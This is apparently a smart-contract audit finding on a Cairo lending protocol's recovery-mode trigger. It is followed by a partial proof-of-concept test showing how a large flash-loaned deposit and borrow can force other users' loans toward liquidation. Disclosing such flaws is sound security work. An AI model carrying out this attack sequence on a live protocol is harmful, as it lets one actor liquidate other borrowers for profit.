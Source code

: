 If we look at how recovery mode is triggered:

```cairo
File: shrine.cairo
0079:     const RECOVERY_MODE_THRESHOLD_MULTIPLIER: u128 = 700000000000000000000000000; // 0.7 (ray)
---
1165:         fn is_recovery_mode_helper(self: @ContractState, health: Health) -> bool {
1166:             let recovery_mode_threshold: Ray = health.threshold * RECOVERY_MODE_THRESHOLD_MULTIPLIER.into();
1167:             health.ltv >= recovery_mode_threshold
1168:         }
```

We can see that all it takes to trigger recovery mode is to bring the shrine LTV to 70% of its nominal threshold, or higher. This can be achieved by a malicious (or naive) user, provided they have enough collateral to take large borrows close to the collateralization threshold, and the shrine `debt_ceiling` provides enough headroom.

### Impact

Loans can be forced into liquidation territory, and be liquidated, whenever a new loan is opened large enough to trigger recovery mode.
This can also happen as a deliberate attack, and within a single transaction, without exposing the attacker's funds to liquidation. It is consequently a solid candidate for a flash loan attack, but can also be executed with a large amount of pre-deposited collateral.

### Proof of Concept

The following test case can be added to `test_shrine.cairo` to show how a large collateral injection `+` large loan can force a pre-existing loan into an unhealthy state, ready to be liquidated:

```cairo
    #[test]
    fn test_shrine_recovery() {
        let wad: u128 = 1000000000000000000;
        let shrine: IShrineDispatcher = shrine_utils::shrine_setup_with_feed(Option::None);
        let yangs: Span<ContractAddress> = shrine_utils::three_yang_addrs();
        let yang1_addr: ContractAddress = *yangs.at(0);

        // trove 1: deposits 1 wad, mints nothing - they just contribute to the health of the protocol
        start_prank(CheatTarget::One(shrine.contract_address), shrine_utils::admin());
        let trove1_deposit: u128 = 1 * wad;
        shrine.deposit(yang1_addr, 1, trove1_deposit.into());

        // trove 2: deposits 1 wad, mints 90% of what they can (slightly overcollateralized)
        let trove2_deposit: u128 = 1 * wad;
        shrine.deposit(yang1_addr, 2, trove2_deposit.into());

        let forge_amt2 = shrine.get_max_forge(2).val * 9 / 10;
        shrine.forge(shrine_utils::admin(), 2, forge_amt2.into(), WadZeroable::zero());

        // life is good
        let mut health = shrine.get_shrine_health();
        assert(false == shrine.is_recovery_mode(), '');

        // trove 3: deposits a flash-loaned collateral, mints A LOT to raise the LTV 
        let trove3_deposit: u128 = 10 * wad;
        shrine.deposit(yang1_addr, 3, trove3_deposit.into());

        let forge_amt3: u128 = shrine.get_max_forge(3).val * 85 / 100;
        shrine.forge(shrine_utils::admin(), 3, forge_amt3.into(), WadZeroable::zero());

        health = shrine.get_shrine_health();
        let trove2_health = shrine.get_trove_health(2);
```